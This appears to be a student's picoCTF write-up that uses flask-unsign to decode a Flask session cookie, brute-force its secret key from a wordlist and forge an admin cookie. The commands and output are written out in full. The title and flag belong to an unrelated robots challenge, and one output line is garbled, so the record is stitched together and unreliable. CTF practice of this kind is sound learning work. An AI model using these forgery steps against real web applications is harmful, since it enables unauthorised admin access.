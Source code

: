 # where are the robots

**Flag:** `picoCTF{ca1cu1at1ng_Mach1n3s_8028f}`

Approach

- step 1<br>
For this challenge we install the flask-unsign which helps in bruteforcing the secret key for a Flask cookie.

step 2<br>
We also pick the cookie names for the secret key from the server.py file and put them in a txt file in a vertical list format without any other characters.

- step 3<br>
Then we go to the page to the storage tab and copy the token name eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM to get the key.

- step 4<br>
Then we decode the signed token using the --decode arguement.

```bash
flask-unsign --decode --cookie  'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM'
{'very_auth': 'blank'}
```
- step 5<br>
Then we use the brute forcer to find the secret key of the cookie.

```bash
 flask-unsign --unsign --cookie  'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM' --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
- step 6<br>
Now since we have found the secret key we can sign the key again by giving the payload as admin instead of blank.

```bash
glaiz@glaiz-Victus-by-HP-Gaming-Laptop-15-fa0xxx:~$ flask-unsign --sign --cookie '{"very_auth": "admin"}' --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyuNlg.h4wE3S6pVYqfx9I4lRht955HmQc
 
```


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/flask.png)



What you learned through solving this challenge:
<br>
- I learnt about the concept of hashing and how a flask cookie is signed using a secret key.I also learnt about the different parts of a JWT token like payload and header.


Other incorrect methods you tried:
<br>
- Tried using Hashcat,but couldnt implement it properly due to NVIDIA CUDA issue.


References
<br>
- [Cracking a Flask Cookie](https://www.youtube.com/watch?v=hjs7XjDyycI)
